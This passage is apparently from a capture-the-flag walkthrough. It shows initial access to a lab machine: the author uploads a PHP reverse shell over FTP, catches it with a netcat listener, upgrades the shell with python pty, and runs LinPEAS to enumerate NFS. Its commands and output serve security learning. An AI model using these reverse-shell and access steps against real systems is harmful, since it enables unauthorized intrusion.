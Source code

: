 # Initial Access

With the knowledge of the ability to upload files via FTP, I created a reverse shell using pentest monkey's php reverse shell (```https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php```) setting the correct IP and changing the port to 9999. Then, I placed the reverse shell in the directory that I landed in with FTP. 
```
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (62.3521 MB/s)
```
I opened up a netcat listener on port 9999.  
```
nc -lnvp 9999
```
Then, I ran a curl command to call the php reverse shell which I caught with the netcat listener above. 
```
curl http://[Remote IP]/php-reverse-shell.php
```
Now, I have a shell as user apache!
```
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (875): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ 
```
I wanted to change the shell to bash and possibly upgrade the shell.
```
sh-4.4$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$
```
Now that I am logged in as user apache, I can find the web flag. 
```
bash-4.4$ ls
ls
error  icons  noindex  web.flag
```
I uploaded LinPeas.sh (```https://github.com/carlospolop/PEASS-ng/releases/tag/20220214```) to do further enumeration on the remote machine and to get ideas for privilege escalation. I uploaded linpeas using FTP like I did with the PHP reverse shell. In order to execute linpeas, I had to navigate to ```/var/www/html``` and I needed to login as paradox user (since before I was only apache user when I dropped into the reverse shell).
```
bash-4.4$ su paradox
su paradox
Password: [REDACTED]
```
Now that I am user paradox, I can set the correct permissions for linpeas to execute within the terminal. Linpeas produces a lot of output. However, it looks like NFS is vulnerable. To check out the rpc options, I run ```rpcinfo -p``` to find the below. 
```
rpcinfo -p
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
```